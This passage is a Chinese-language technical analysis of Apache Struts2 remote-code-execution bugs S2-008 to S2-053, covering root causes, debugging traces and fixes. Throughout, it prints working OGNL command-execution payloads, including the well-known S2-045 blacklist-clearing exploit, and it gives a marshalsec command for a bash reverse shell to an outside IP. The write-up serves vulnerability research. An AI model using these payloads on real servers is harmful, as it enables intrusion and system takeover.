正如[vulhub](https://github.com/vulhub/vulhub/blob/master/struts2/s2-008/README.zh-cn.md)上面提到的一样，该漏洞虽然较为鸡肋，但也可用作后门：
>在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

漏洞原理比较简单，因为代码显而易见，在`DebuggingInterceptor#intercept()`中对入参进行了OGNL表达式计算，如下图：


可简单执行命令的PoC如下：
```
/devmode.action?debug=command
&expression=(%23_memberAccess.allowStaticMethodAccess=true,@java.lang.Runtime@getRuntime().exec('touch%20/tmp/success2'))
```

### vuln-2：可回显PoC

因为`DebuggingInterceptor`会把表达式的计算结果返回，所以这里就没有必要获取`response`对象了：

```
/devmode.action?debug=command
&expression=(%23_memberAccess.allowStaticMethodAccess=true,%23ret=@java.lang.Runtime@getRuntime().exec('id'),%23br=new%20java.io.BufferedReader(new%20java.io.InputStreamReader(%23ret.getInputStream())),%23res=new%20char[20000],%23br.read(%23res),new%20java.lang.String(%23res))
```


## 漏洞修复

后续的版本中，并没有对拦截器`DebuggingInterceptor`中的代码进行修复，因为就该调试功能本身而言，并不是漏洞。所以后续的修复主要是针对`SecurityMemberAccess`的代码进行改进，增强安全性。


<a name="s2-009"></a>
## S2-009

官方漏洞公告：
https://cwiki.apache.org/confluence/display/WW/S2-009

影响版本：Struts 2.0.0 - Struts 2.3.1.1

## 漏洞复现与分析

`S2-009`是`S2-005`的修复绕过，而且绕过的方法很巧妙。(btw,`S2-003`/`S2-005`/`S2-009`都是当时Google安全团队的`Meder Kydyraliev`报告的)

>在调试分析这些老漏洞的过程，其实也是在观摩安全人员和开发人员之间的对抗过程，挺有趣的)

前面分析过`S2-003`/`S2-005`漏洞可以知道，现在为了防止请求参数名中的OGNL表达式执行，主要做了以下两点：
- 添加了类`SecurityMemberAccess`，且其属性`allowStaticMethodAccess`默认为`false`，来防止利用OGNL表达式去执行Java方法；
- 在拦截器`ParametersInterceptor`中对请求参数名进行正则表达式白名单字符的匹配，来防止特殊符号(比如：`#`符号)经过unicode编码后的绕过。

这次的绕过使用到了OGNL表达式求值的另一种写法：`[(ognl_java_code)(fuck)]`。测试了一下，这种写法确实是有效的，如下图：


另外，在Action以属性封装的形式接收表单数据的情况下，比如`myaction?testparam=xxx&z[(testparam)(fuck)]`，且`myaction`对应的Action类也有名为`testparam`的成员属性。提交后，struts2会将`xxx`赋值给Action的成员属性`testparam`，接着处理第二个参数`z[(testparam)(fuck)]`时，先在Action类中检索名为`testparam`的属性的值，将检索到的值进行OGNL表达式计算。最关键的是，`z[(testparam)(fuck)]`这种参数名形式是匹配`ParametersInterceptor`拦截器中用来校验参数名合法性的正则表达式`[a-zA-Z0-9\.\]\[\(\)_']+`的。

因此，把恶意的OGNL表达式放置在`testparam`参数值，即`xxx`的位置，便可以规避拦截器`ParametersInterceptor`的正则表达式白名单字符的匹配，最终达成RCE。

下面以Struts2 `2.3.1.1`自带的示例程序`showcase`为例，找到`ajax/Example5Action.java`，其代码很简单，且符合使用属性封装的形式来获取提交过来的表单数据(这里的表单，不要狭隘地理解为HTML中的`form`表单，而是通过http提交数据的一种形式：`key=value`)，如下图：


构造可简单执行命令的PoC如下：
```
http://vulfocus.me:31519/S2-009/ajax/example5?
name=(%23_memberAccess.allowStaticMethodAccess=true,%23context['xwork.MethodAccessor.denyMethodExecution']=false,@java.lang.Runtime@getRuntime().exec('touch%20/tmp/success2'))
&z[(name)(fuck)]
```

如下图，在拦截器`ParametersInterceptor`处理完第一个请求参数`name`后，`Example5Action`的成员属性`name`被成功赋值，它的值就是我们提交的包含恶意Java代码的OGNL表达式。



在解析第二个参数`z[(name)(fuck)]`的过程中，会解析为两个`ASTProperty`类型的节点，如下图：


然后会去当前Action对象`Example5Action`中检索`name`成员变量的值，如下图：


接着对获取到的`name`的值进行OGNL表达式计算，最后成功执行命令，如下图：


### 可回显PoC

```
/example5.action?name=(#_memberAccess.allowStaticMethodAccess=true,
#context['xwork.MethodAccessor.denyMethodExecution']=false,
#ret=@java.lang.Runtime@getRuntime().exec('id'),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#ret.getInputStream())),
#res=new char[20000],
#br.read(#res),
#writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),
#writer.println(new java.lang.String(#res)),
#writer.flush(),
#writer.close())
&z[(name)(fuck)]
```


## 漏洞修复

Struts2 `2.3.1.2`版本，依赖的XWork版本也是`2.3.1.2`，在拦截器`ParametersInterceptor`中，对请求参数名的合法性校验进行了增强，即增强了正则表达式。


另外，还将`ParametersInterceptor`中的`newStack.setValue()`替换为`newStack.setParameter()`方法调用，在`OgnlValueStack#setParameter()`方法中，会通过`boolean`标志位去禁止OGNL表达式计算的。

<a name="s2-012"></a>
## S2-012

官方漏洞公告：<br>
https://cwiki.apache.org/confluence/display/WW/S2-012

影响版本：`Struts 2.0.0` - `Struts 2.3.14.2`

## 漏洞复现与分析

从漏洞公告中获悉漏洞会出现的场景：如果一个Action定义了一个变量比如`uname`，当触发了`redirect`类型的返回时，如果重定向的`url`后面带有`?uname=${uname}`，则在这个过程中会对`uname`参数的值进行OGNL表达式计算。

下面用`vulhub/struts2/s2-012`中的应用进行调试分析。

该应用中定义了`UserAction`，并配置了`redirect`类型的返回，重定向的地址`url`为：`/index.jsp?name=${name}`，如下图：


从漏洞公告中可获悉，漏洞是发生在返回阶段。根据Struts2/XWork的运行主线的可知，`ActionInvocation`在调度完`Action`对象后，便会去调度`Result`对象，如下图：


>关于Struts2的运行主线等原理的详解可参考陆舟的《Struts2技术内幕》

所以，我们可以在Struts2的核心调度对象`DefaultActionInvocation`中开始调度`Result`处下断点，如下图：


继续调试，在`StrutsResultSupport#conditionalParse()`方法中，出现了一个熟悉的身影：`TextParseUtil#translateVariables()`，没错，这个方法在`S2-001`的漏洞触发执行栈中出现过。


可是`S2-001`漏洞不是早就被修复了吗，为什么还能通过`TextParseUtil#translateVariables()`去触发漏洞？

经调试发现，这里与`S2-001`还是稍有不同，这里调用的是`TextParseUtil`的一个重载方法，其中，第一个参数是一个`char`数组。而且如下图可以看到这里传入了包含两个元素的`char`数组，这就是`S2-012`为什么可以用`S2-001`的PoC直接打的关键。为什么呢，继续往下看。


可以看到，这里的`while(true)`循环被放置到一个`for`循环里了，且`for`循环的次数由`char`数组`openChars`的长度决定，而这里传入的`openChars`的长度为`2`,两个元素分别为`$`和`%`字符。所以下面的`while(true)`循环会执行两次，第一次是解析`${name}`，解析得到结果后，继续对结果`%{xxx}`进行解析。因此使得`S2-001`漏洞重现了。(是不是感觉挺有意思的^_^)


### 可回显PoC

综上，这里可以直接用`S2-001`的PoC执行任意命令：

```
%{#p=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).start(),
#is=#p.getInputStream(),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#is)),
#arr=new char[50000],
#br.read(#arr),
#str=new java.lang.String(#arr),
#writer=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),
#writer.println(#str),
#writer.flush(),
#writer.close()}
```


如果要使用`Runtime#exec()`方法来执行命令也可以，不过要添加`#_memberAccess.allowStaticMethodAccess=true`。前面使用`ProcessBuilder#start()`，由于不需要调用静态方法，所以无需先将`SecurityMemberAccess`的`allowStaticMethodAccess`改为`true`。
```
%{#_memberAccess.allowStaticMethodAccess=true,
#a=(@java.lang.Runtime@getRuntime().exec(new java.lang.String[]{"cat","/etc/passwd"})),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),
#f.getWriter().close()}
```


## 漏洞修复

通过比对代码，发现在`2.3.14.3`版本的`OgnlTextParser.java#evaluate()`方法里，将位置索引值`pos`的初始化移到了`for`循环之前。这样修改，使得第一次OGNL表达式计算后，起始位置`pos`的值会更新，而不会重新置`0`，从而避免了二次计算OGNL表达式。<br>


<a name="s2-013"></a>
## S2-013

官方漏洞公告：
https://cwiki.apache.org/confluence/display/WW/S2-013

影响版本：`Struts 2.0.0` - `Struts 2.3.14.1`

## 漏洞复现与分析

从漏洞公告中可获悉漏洞出现在`<s:url>`和`<s:a>`标签中的`includeParams`属性。<br>
`includeParams`属性接收三个值：
- `none`：表示url中不包含参数(默认就是`none`)。
- `get`：表示url中只包含`GET`参数。
- `all`：表示url中既包括`GET`参数也包括`POST`参数。

当`<s:url>`和`<s:a>`标签指定了`includeParams`属性为`get`或`all`时，Struts2在处理url的参数时会进行两次OGNL表达式计算，从而导致注入的Java代码执行。

其实这个漏洞和`S2-001`是类似的，只是这次漏洞时出现在`<s:url>`和`<s:a>`标签的处理过程中而已。

下面使用`Struts 2.3.14.1`自带的示例程序`struts-blank`来调试分析。运行应用之前得修改一下首页`index.jsp`，在`<s:url>`和`<s:a>`标签中添加`includeParams="all"`，如下图：


跟之前`S2-001`一样，找到`<s:url>`对应的类`URLTag`，在`doEndTag()`方法中下断点进行调试。

在关键的地方，即执行OGNL表达式计算的类和方法，比如`OgnlValueStack#findValue()`下断点，一路跟下去，发现在处理url参数的过程中，`DefaultUrlHelper#buildParameterSubstring()`会调用`TextParseUtil#translateVariables()`，如下图：


后面的漏洞触发流程就跟`S2-012`一样了。所以这个漏洞其实没什么值得说道的地方，因为跟之前出现的漏洞类似。

### 可回显PoC

```
/xxx.action?fakeParam=
%{#_memberAccess.allowStaticMethodAccess=true,
#context['xwork.MethodAccessor.denyMethodExecution']=false,
#is=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#is)),
#res=new char[20000],
#br.read(#res),
#writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),
#writer.println(new java.lang.String(#res)),
#writer.flush(),
#writer.close()}
```


## 漏洞修复

在Struts2的`2.3.14.2`版本中，`DefaultUrlHelper#buildParameterSubstring()`没有再调用`TextParseUtil.translateVariables()`对参数进行处理了。如下图：


<a name="s2-015"></a>
## S2-015

官方漏洞公告：https://cwiki.apache.org/confluence/display/WW/S2-015

影响版本：`Struts 2.0.0` - `Struts 2.3.14.2`

## 漏洞复现与分析

`S2-015`实际上包括两处漏洞：
- **Wildcard matching**：通配符匹配导致的RCE
- **Double evaluation of an expression**：OGNL表达式二次求值导致的RCE

下面使用`vulhub/s2-015`对该漏洞进行进行调试分析。

### vuln-1: Wildcard matching

在`struts.xml`配置文件中定义了通配符`*`访问规则，如下图：


假设请求的url中`action`名为`xxxx`，不匹配`param`，而是匹配通配符`*`，最终返回`/xxxx.jsp`页面，如果`xxxx.jsp`页面存在，则返回页面内容，如果不存在，则返回`404`报错页面，报错信息中包含有`/S2-015/xxxx.jsp`。

而如果请求的`action`名是一个OGNL表达式，则会进行计算。最简单的PoC，传入一个`${2+3}.action`，会发现被进行OGNL表达式计算，然后结果回显在`404`报错页面中，如下图：


从现象来看，OGNL表达式的计算也是在调度`Result`对象时发生的。因此，与`S2-012`一样，调试时可在`DefaultActionInvocation`开始调度`Result`对象时下断点，以及在OGNL表达式计算的关键方法比如`OgnlValueStack#findValue()`处下断点。

调试过后发现，这个漏洞触发的方法调用栈，跟`S2-012`是几乎一样的(不同版本代码略有差异)。它会把`<result>`标签指定的页面地址作为参数，传入`TextParseUtil.translateVariables()`进行处理，最终会进入一个OGNL执行器`ParsedValueEvaluator`里进行OGNL表达式计算。


### vuln-1 可回显PoC

在Struts2 `2.3.14.2`版本的`SecurityMemberAccess`类中，删除了`setAllowStaticMethodAccess()`，所以我们在构造PoC的时候就不能通过`#_memberAccess['allowStaticMethodAccess']=true`的方式去获取调用静态方法的能力，但可以通过反射的方式去修改该属性。另外，还可以像前面`S2-001`里用过的，使用`ProcessBuilder#start()`方法来执行系统命令，因为这种方式不需要调用静态方法。

这里使用反射修改`allowStaticMethodAccess`属性的方式，如下：
```
/S2-015/%25%7b%23m=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23m.setAccessible(true),%23m.set(%23_memberAccess,true),%23a=@java.lang.Runtime@getRuntime().exec('id'),%23b=%23a.getInputStream(),%23c=new%20java.io.InputStreamReader(%23b),%23d=new%20java.io.BufferedReader(%23c),%23e=new%20char[50000],%23d.read(%23e),new%20java.lang.String(%23e)%7d.action
```


这里换一种方式来处理命令执行的结果：使用项目依赖包`commons-io`里的`IOUtils#toString()`方法。
使用这个方法的好处是，它会根据命令执行结果而返回相应长度的字符串。而不是像上面的方式那样固定的缓冲区。
```
%25%7B%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23m=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23m.setAccessible(true),%23m.set(%23_memberAccess,true),%23q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())%7D.action
```


### vuln-2：Double evaluation of an expression

有`ParamAction`定义如下图，在该`action`中定义了`message`属性以及`set`/`get`方法。在`struts.xml`中还定义了`success`返回时的方式，使用了`${message}`去引用`message`属性的值。


其实这个漏洞本质上与`S2-012`是一样的，也是在定义`Result`的行为时，引用了`Action`的属性值，而Struts2在调度`Result`对象的过程中，会对`Action`的属性引用值进行二次OGNL表达式计算，从而导致可RCE。

因为是`result`的类型是`httpheader`，所以实际调度的`Result`对象其实是`HttpHeaderResult`对象。


然后在`HttpHeaderResult#execute()`方法中，会将参数`fxxk`的值`${message}`传入`TextParseUtil#translateVariables()`进行OGNL表达式求值，后面的方法调用栈就和`S2-012`一样了，就不再详细说了：第一次先计算`${message}`，得到我们传入的OGNL表达式`%{xxxyyyzzz...}`。第二次则计算`%{xxxyyyzzz...}`并得到结果，并在响应头`fxxk`中显示。



### vuln-2 可回显PoC


## 漏洞修复

### 针对 vuln-1：Wildcard matching 的漏洞修复

通过正则表达式对`action`名进行了校验，将不在白名单里的字符给去掉。新版本的关键修复代码如下图：


### 针对 vuln-2：Double evaluation of an expression 的漏洞修复

通过比对代码，发现在`2.3.14.3`版本的`OgnlTextParser.java#evaluate()`方法里，将位置索引值`pos`的初始化移到了`for`循环之前。这样修改，使得第一次OGNL表达式计算后，起始位置`pos`的值会更新，而不会重新置`0`，从而避免了二次计算OGNL表达式。<br>
**注：** <br>
**另外，这也是`S2-012`的修复，之前写`S2-012`漏洞分析的文章里，把修复方式给写错了!！**


<a name="s2-016"></a>
## S2-016

官方漏洞公告：https://cwiki.apache.org/confluence/display/WW/S2-016

影响版本：`Struts 2.0.0` - `Struts 2.3.15`

## 漏洞复现与分析

在Struts2中，支持在`action`的请求参数中添加`redirect:`、`redirectAction:`前缀，在后面加上指定表达式，便可实现路径导航和重定向。但由于没有对前缀后面的表达式进行安全过滤，从而可导致注入任意OGNL表达式。

下面使用struts2 `2.3.15`版本自带的示例程序`struts-blank`进行调试分析。
以`redirect:`为例，最简单的PoC`redirect:%{11+13}`，复现如下：



可以看到表达式`%{11+13}`被执行了，结果回显在了响应头`Location`中。

对这些参数前缀的处理，是在`org.apache.struts2.dispatcher.mapper.DefaultActionMapper`类中，如下图，每个前缀都有与之对应的处理动作。


下面以`redirect:`前缀为例子。

先说一下，这个漏洞的触发流程其实是在struts2运行主线的第一阶段，并没有到达第二阶段。什么意思呢，看下图：


如上图，这是一个正常的`action`请求的处理时序图。

首先第一阶段是对HTTP请求的预处理阶段。这个阶段主要由Struts2完成，其主要职责是与Web容器打交道，将HTTP请求处理成为普通的Java对象。<br>
而第二阶段，则是XWork事件处理阶段。程序的执行控制权在此时交给了XWork框架，其主要职责是对请求进行核心逻辑处理。

为什么说这个漏洞的触发流程只是在struts2运行主线的第一阶段呢？来实际调试一下便知。

struts2接收到请求后，先到达`StrutsPrepareAndExecuteFilter#doFilter()`方法中，在该方法中，会根据`request`对象来获取`ActionMapping`对象，如下图：


在获取`ActionMapping`对象的过程中，会调用`DefaultActionMapper#handleSpecialParameters()`方法去处理特殊的参数
，比如包含了`redirect:`、`redirectAction:`等前缀的参数，具体的处理动作在对应的`ParameterAction#execute()`方法里完成，如下图：


 


可以看到，在`redirect:`前缀对应的处理动作中，往`ActionMapping`对象中放置了一个`Result`对象：`ServletRedirectResult`对象，并且将前缀后面的OGNL表达式字符串赋值给该`Result`对象的`location`属性中。

获取到`ActionMapping`属性后，随着运行主线的第一阶段，到达`Dispatcher#serviceAction()`方法。在该方法中，会判断在`ActionMapping`对象的`result`属性是否为`null`，如果为`null`，则进入运行主线的第二阶段。然而，前面已经在处理`redirect:`参数前缀时，将一个`ServletRedirectResult`对象赋值给了`ActionMapping`的`result`属性，所以这里不会进入第二阶段，而是直接开始调度`Result`对象。


继续跟进，看到了熟悉的`TextParseUtil.translateVariables()`方法。后面的方法执行流程就跟`S2-015:vuln-1`一样了，这里不再展开。

### 可回显PoC

```
xxx.action?redirect:%{#context['xwork.MethodAccessor.denyMethodExecution']=false,
#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),
#f.setAccessible(true),
#f.set(#_memberAccess,true),
#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),
#wr=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),
#wr.println(#a),#wr.flush(),#wr.close()}
```


## 漏洞修复

通过版本代码比对，在Struts2 `2.3.15.1`版本中，`DefaultActionMapper`类里对`redirect:`、`redirectAction:`前缀的处理代码都删除了。


 


<a name="s2-032"></a>
## S2-032

官方漏洞公告：https://cwiki.apache.org/confluence/display/WW/S2-032

影响版本：`Struts 2.3.20` - `Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)`

## 漏洞复现与分析

从漏洞公告可获悉，当Struts2的"动态方法调用"`(Dynamic Method Invocation)`特性被启用时，可通构造以`method:`为前缀的OGNL表达式，造成远程代码执行。

下面使用struts2 `2.3.28`版本自带的示例程序`struts-blank`进行调试分析。

在部署应用前，需要在`struts.xml`文件中启用`Dynamic Method Invocation`特性，同时需要将`devMode`模式关闭。至于为什么要关闭`devMode`模式，在下面的调试过程中就能找到答案。


同`S2-016`的`redirect:`、`redirectAction:`前缀一样，对参数前缀`method:`的处理也是在类`org.apache.struts2.dispatcher.mapper.DefaultActionMapper`，如下图：

按照前面在`S2-016`漏洞分析中提到的Struts2运行主线的流程，跟进到类`DefaultActionMapper`中对参数前缀为`method:`时的处理，如下图，只有当`Dynamic Method Invocation`特性启用时才会将`method:`后面带的字符串赋值到`ActionMapping`的`method`属性。


继续跟进代码到`Dispatcher#serviceAction()`方法，发现在创建`ActionProxy`对象的过程中，会对传入的`method`字符串(即`method:`前缀后面跟着的字符串)进行HTML字符转义和JS字符转义(这个常用来防止XSS攻击)。因此这次我们构造PoC的时候就不能直接把之前漏洞的PoC拿来用了，得修改一下，比如不能出现单双引号、尖括号等。


继续跟进代码，到了调度拦截器执行阶段，当拦截器`AnnotationValidationInterceptor`执行过程中，会搜索当前`action`对象中是否有`method:`前缀后指定的方法。因为这里我们就是要插入恶意OGNL表达式的，所以结果肯定是搜索不到的。当搜索不到时，当`devMode`开启时，就会抛出异常，程序因此中断从而无法执行我们注入的OGNL表达式，所以前面提到为什么前提条件还包括不开启`devMode`模式。如下图：


最后，在调用`action`对象的时候，便会对`method:`前缀后面的OGNL表达式进行计算，如下图：


这里要注意`OnglUtil.getValue()`的第一个参数，`methodName`后面拼接了一个圆括号`()`，故在构造PoC时，要在注入的OGNL表达式中，最后一个得是方法调用，且去掉圆括号。

### 可回显PoC

从上面的调试分析可知，会对`method:`前缀后面的字符串进行HTML字符和JS字符转义，所以这里不能使用`#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess')`这种方式来访问`_memberAccess`的`allowStaticMethodAccess`属性，因为单引号会被转义。执行命令`Runtime#exec('id')`同理。

这里使用`@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS`将`#_memberAccess`重置为默认对象`DefaultMemberAccess`，`DefaultMemberAccess`不会禁止执行Java静态方法。

而命令参数则利用上下文对象`context`中`parameters`属性去读取。

综上，可回显PoC如下：
```
/xxxx.action?method:#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,
#res=@org.apache.struts2.ServletActionContext@getResponse(),
#w=#res.getWriter(),
#w.println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream())),
#w.flush(),
#w.close&cmd=uname -a
```


## 漏洞修复

通过版本比对，可以看到在Struts2 `2.3.28.1`版本中，对`method:`前缀后面的字符串进行了字符白名单校验，将不在白名单里的字符给去掉。新版本的关键修复代码如下图：


<a name="s2-045"></a>
## S2-045

官方漏洞公告：https://cwiki.apache.org/confluence/display/WW/S2-045

影响版本：`Struts 2.3.5`-`Struts 2.3.31`, `Struts 2.5`-`Struts 2.5.10`

## 漏洞复现与分析

从漏洞公告可获悉，如果`Content-Type`请求头的值表示一个上传类型，但值是无效的，且是一个精心构造的OGNL表达式时，`Jakarta Multipart parser`这个解析器在对`Content-Type`处理的过程中，会触发异常，在处理异常信息的时候会计算OGNL表达式，从而造成远程代码执行。

这里使用Struts2 `2.3.31`版本自带的示例应用`struts-blank`进行调试分析。

因为得是上传类型，故`Content-Type`的值包含字符串`multipart/form-data`。另外，在`Jakarta Multipart parser`解析器对应的类`JakartaMultiPartRequest`的解析请求的方法`parse()`方法中下断点。

命中断点后，跟进它的处理，可以看到，当`content-type`请求头的值不是以`multipart/`开头时，则抛出异常`InvalidContentTypeException`，同时将`content-type`的值拼接到异常消息字符串中。


抛出异常后，则在`JakartaMultiPartRequest#buildErrorMessage()`对异常消息进行处理。


继续跟进，看到了熟悉的`TextParseUtil.translateVariables()`，往后就是从异常消息字符串中根据`%`符号提取OGNL表达式并计算求值，这里不再细说，因为前面分析其他漏洞的文章里已经详细分析过了。




下面重点说一下PoC的构造。

### 可回显PoC

>注：关于OGNL表达式的形式，可参考官方文档：<br>
>https://commons.apache.org/proper/commons-ognl/language-guide.html

因为Struts2从`2.3.28.1`版本开始，在`OgnlUtil`类中，对`(e1,e2,e3,e4,...)`这种形式的表达式进行了限制，不允许执行。`(e1,e2,e3,e4,...)`这种形式的表达式会被解析为`ASTSequence`类型，而`ASTSequence#isSequence()`永远返回`true`，从而向上抛出异常，不会继续对表达式进行求值。关键代码如下：


    

    

    
所以这里换一种表达式形式：`(e1).(e2).(e3).(e4)....`。这种形式的表达式会被解析为`ASTChain`类型，没有被限制执行。

所以，构造简单PoC如下：

```
%{
(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#a=1).
(#b=2*#a).
(#c=2*#b).
(#ret=4*#c).
(#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',#ret)).
(multipart/form-data)
}
```


要构造命令执行的PoC，首先要将上下文对象`context`的`_memberAccess`属性重新赋值为`DEFAULT_MEMBER_ACCESS`。但Struts2 `2.3.31`的代码里，上下文对象`context`内部的`Map`集合已经没有`_memberAccess`这个键，当然也就无法向之前一样通过`#context['_memberAccess']`或`#_memberAccess`去访问`context`的`_memeberAccess`属性。(详见`OgnlContext`的`static`代码块和`get(Object key)`方法)

但可以通过`OgnlContext`的`setMemberAccess()`方法去设置它。然而在此之前，还得做些工作。否则`OgnlContext#setMemberAccess()`无法执行。为什么呢？这里直接拿网上的漏洞利用工具/脚本里的`S2-045`漏洞exploit来解释，如下:
```
%{
(#t='multipart/form-data').
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):
		(
		(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
		(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
		(#ognlUtil.getExcludedPackageNames().clear()).
		(#ognlUtil.getExcludedClasses().clear()).
		(#context.setMemberAccess(#dm)))).
(#cmd='id').
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds)).
(#p.redirectErrorStream(true)).
(#process=#p.start()).
(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).
(#ros.flush())
}
```


- 因为版本较旧的Struts2，上下文对象`context`内部的`Map`集合里还是存在`_memberAccess`属性的，同时也可以通过`get`方法访问，而版本较新的则没有。所以这里使用条件形式的表达式`(e1)?(e2):(e3)`来实现版本的兼容。
- 这里在执行`#context.setMemberAccess()`前，为什么要先调用`#ognlUtil.getExcludedPackageNames().clear()`和`#ognlUtil.getExcludedClasses().clear()`呢？原因是在较新的Struts2版本中，默认情况下，会通过类名和包名黑名单的形式禁止OGNL表达式中某些类的方法调用。Struts2 `2.3.31`里的类名、包名的黑名单如下图所示。


对黑名单的读取，是在`OgnlValueStack#setOgnlUtil()`方法中，如下图：


可以看到，连`OgnlContext`都在黑名单中，所以必须得先将黑名单集合`excludedClasses`和`excludedPackageNames`给清空，同时又不能使用黑名单里的类去调用方法。故这个exploit给了一个思路：

先通过`#container=#context['com.opensymphony.xwork2.ActionContext.container']`来获取`ContainerImpl`对象，通过`ContainerImpl#getInstance()`方法来获取`OgnlUtil`对象，而`OgnlUtil`并不在黑名单中，所以再通过`#ognlUtil.getExcludedPackageNames().clear()`和`#ognlUtil.getExcludedClasses().clear()`来清空存储黑名单的集合。清除后，上下文对象`context`就可以调用`setMemberAccess()`方法去重置`_memberAccess`属性了。

## 漏洞修复

在Struts2 `2.3.32`中，`JakartaMultiPartRequest#buildErrorMessage()`把异常信息传入了`LocalizedTextUtil#findText()`方法的`args`参数的位置，不再传到`defaultMessage`参数的位置。


      


<a name="s2-052"></a>
## S2-052

官方漏洞公告：https://cwiki.apache.org/confluence/display/WW/S2-052

影响版本：`Struts 2.1.6` - `Struts 2.3.33`, `Struts 2.5` - `Struts 2.5.12`

## 漏洞复现与分析

下面使用Struts2 `2.3.33`版本自带的示例应用`struts2-rest-showcase`进行调试分析。

从漏洞公告可获悉，该漏洞与OGNL表达式无关，而是由于`REST plugin`插件在处理`xml`类型的请求数据时，没有进行任何类型的过滤，故可构造恶意xml数据使XStream进行不安全的反序列化，从而达到RCE。

`struts2-rest-plugin`是使Struts2实现REST API的插件。它通过`Content-Type`或`URI后缀名`来识别不同的请求数据类型，然后根据请求数据类型用不同的实现类去处理。关键代码如下：


跟进`XStreamHandler#toObject()`方法，发现调用了`XStream#fromXML()`方法对请求数据进行反序列化。


`struts-rest-plugin-2.3.33`依赖的XStream的版本是`1.4.8`。故可以使用`marshalsec`生成`ImageIO`利用链的payload进行RCE的漏洞利用。

## 可回显PoC

对于xstream的反序列化命令执行回显，本人暂时不知道如何实现。<br>
下面使用`marshalsec`工具生成反弹shell的exploit：
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream ImageIO "/bin/bash" "-c" "bash -i >& /dev/tcp/192.168.166.233/443 0>&1"
```


   


## 漏洞修复

在`struts2-rest-plugin-2.3.34`版本中，将XStream升级到了`1.4.10`版本，且按照XStream官方的推荐(hxxps://x-stream.github.io/security.html)，使用了白名单的方式指定可以反序列化的类型。


<a name="s2-053"></a>
## S2-053

官方漏洞公告：https://cwiki.apache.org/confluence/display/WW/S2-053

影响版本：`Struts 2.0.0` - `Struts 2.3.33`, `Struts 2.5` - `Struts 2.5.10.1`

## 漏洞复现与分析

从漏洞公告可获悉：在FreeMarker模板中使用struts2标签库时，如果使用了表达式`${}`去引用可控输入时，便会导致RCE攻击。

下面使用docker镜像`medicean/vulapps:s_struts2_s2-053`进行调试分析。该环境使用的是Struts2 `2.5.10.1`版本。

在该环境中，`Index.action`的返回页面使用FreeMarker模板去渲染。在freemarker模板文件`index.ftl`里使用了struts2标签`s:url`，即`@s.url`，且该标签的`value`属性引用了外界可控输入的`name`参数的值。代码如下：


简单执行OGNL表达式如下：


由于漏洞触发是在Struts2处理返回页面，即`Result`对象阶段。因此在`DefaultInvocation`开始调度`Result`对象处，以及`OgnlValueStack#findValue()`方法处下断点，便可知道漏洞触发执行的调用栈。

由于`Index.action`的`result`标签的`type`属性为`freemarker`，所以`DefaultInvocation`调度的`Result`对象其实是`FreemarkerResult`，它会根据模板文件创建对应的模板对象`Template`来进行一系列的解析渲染操作。在这个过程中，它先是解析表达式`${name}`获取`name`参数的值，然后对值进行OGNL表达式的计算。关键代码如下：


   

  

  

  
### 可回显PoC

拿S2-045的exploit稍微修改一下便可：
```
%{
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):
		(
		(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
		(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
		(#ognlUtil.getExcludedPackageNames().clear()).
		(#ognlUtil.getExcludedClasses().clear()).
		(#context.setMemberAccess(#dm)))).
(#cmd='id').
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds)).
(#p.redirectErrorStream(true)).
(#process=#p.start()).
(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))
}
```


## 漏洞修复

